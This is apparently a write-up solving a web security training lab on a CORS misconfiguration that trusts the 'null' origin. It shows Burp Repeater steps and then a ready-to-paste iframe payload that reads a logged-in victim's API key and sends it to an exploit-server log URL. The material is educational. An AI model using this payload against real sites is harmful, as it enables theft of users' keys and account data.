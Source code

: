# Lab: CORS vulnerability with trusted null origin

## Lab Description

![image](https://github.com/KVNuhman/Web-Security-Lab/assets/46161259/0b051784-8eb8-4bd0-8204-ba326489a426)

## Solution

Log in using the given username and password.

![image](https://github.com/KVNuhman/Web-Security-Lab/assets/46161259/bfb2632c-0b16-4fef-b5aa-9a71ffdf3f3d)

The apikey is retrieved via an AJAX request to `/accountDetails`, and the response contains the `Access-Control-Allow-Credentials` header suggesting that it may support CORS.

![image](https://github.com/KVNuhman/Web-Security-Lab/assets/46161259/261496e2-a890-4581-81db-aacb6209612c)

Send the request to Burp Repeater, and resubmit it with the added header `Origin` with some random web address . The eb address is not reflected in the `Access-Control-Allow-Origin` header.

![image](https://github.com/KVNuhman/Web-Security-Lab/assets/46161259/80d8b0c1-0ec9-47f5-ae96-64403b6e0d2d)

Resubmit it by changing header `Origin: null`. The "null" origin is reflected in the `Access-Control-Allow-Origin` header.

![image](https://github.com/KVNuhman/Web-Security-Lab/assets/46161259/4420bda9-9c0b-4bb5-984f-a49fe23afce2)

Go to exploit server and in the body section paste the following HTML.

```HTML
<iframe sandbox="allow-scripts allow-top-navigation allow-forms" srcdoc="<script>
    var req = new XMLHttpRequest();
    req.onload = reqListener;
    req.open('get','YOUR-LAB-ID.web-security-academy.net/accountDetails',true);
    req.withCredentials = true;
    req.send();
    function reqListener() {
        location='YOUR-EXPLOIT-SERVER-ID.exploit-server.net/log?key='+encodeURIComponent(this.responseText);
    };
</script>"></iframe>
```

Click on store and then deliver to victim.

![image](https://github.com/KVNuhman/Web-Security-Lab/assets/46161259/815520ef-6f47-4fb6-8291-878c6543c8c0)

The apikey will be in the url.

![image](https://github.com/KVNuhman/Web-Security-Lab/assets/46161259/39f200cb-b28c-48a5-aeed-e6c5069d20e4)

Paste the apikey in the **Submit Solution** section and finish the lab.

![image](https://github.com/KVNuhman/Web-Security-Lab/assets/46161259/3b12fbea-2bf2-442a-8781-e45fd47922d9)
